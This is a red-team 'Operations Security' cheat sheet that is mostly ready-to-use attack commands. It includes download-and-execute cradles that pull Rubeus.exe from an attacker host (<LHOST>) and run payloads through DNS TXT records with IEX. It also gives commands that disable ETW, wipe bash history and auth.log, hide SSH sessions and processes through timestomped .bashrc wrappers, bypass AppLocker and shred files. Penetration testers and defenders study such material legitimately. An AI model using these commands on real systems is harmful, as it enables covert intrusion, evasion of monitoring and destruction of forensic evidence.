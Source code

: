 # Operations Security

- [Resources](#resources)

## Table of Contents

- [.NET Reflection](#net-reflection)
- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](#avoid-invoke-expression-iex-and-invoke-webrequest-iwr)
- [Bypassing Event Tracing for Windows (ETW)](#bypassing-event-tracing-for-windows-etw)
- [Clear Linux History](#clear-linux-history)
- [Hiding SSH Sessions](#hiding-ssh-sessions)
- [Logfile Cleaning](#logfile-cleaning)
- [LOLBAS](#lolbas)
- [Process Hiding](#process-hiding)
- [ProxyChains](#proxychains)
- [Save File Deletion](#save-file-deletion)
- [Sneaky Directory](#sneaky-directory)
- [Windows Advanced Threat Protection (ATP)](#windows-advanced-threat-protection-atp)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| OPSEC Pocket Guide | Your Pocket Guide to OPSEC in Adversary Emulation | https://ristbs.github.io/2023/02/08/your-pocket-guide-to-opsec-in-adversary-emulation.html?s=09 |
| OPSEC Tradecraft | Collection of OPSEC Tradecraft and TTPs for Red Team Operations | https://github.com/WesleyWong420/OPSEC-Tradecraft |

## .NET Reflection

```console
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```console
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```console
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```console
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```console
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

### Concatinate Payloads

```console
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## Bypassing Event Tracing for Windows (ETW)

```console
C:\> set COMPlus_ETWEnabled=0
```

## Clear Linux History

```console
* echo "" > /var/log/auth.log
* echo "" > ~/.bash_history
* rm ~/.bash_history
* history -c
* export HISTFILESIZE=0
* export HISTSIZE=0
* kill -9 $$
* ln -sf /dev/null ~/.bash_history
* ln -sf /dev/null ~/.bash_history && history -c && exit
```

## Hiding SSH Sessions

```console
$ ssh -o UserKnownHostsFile=/dev/null -T <USERNAME>@<RHOST> 'bash -i'
```

- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```console
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```console
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```console
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```console
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

## Process Hiding

```console
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## ProxyChains

> https://github.com/haad/proxychains

```console
$ proxychains <APPLICATION>
```

### Configuration

```console
socks4 metasploit
socks5 ssh
socks4  127.0.0.1 1080
socks5  127.0.0.1 1080
```

### Proxychain the whole Terminal Input

```console
$ proxychains zsh
$ nmap -p 80 <RHOST>
```

## Save File Deletion

```console
$ shred -z <FILE>
```

Alternatively:

```console
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Sneaky Directory

```console
$ sudo mkdir -p /mnt/.../<DIRECTORY>
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```console
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```console
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```console
C:\> tasklist | findstr /i mssense.exe
```

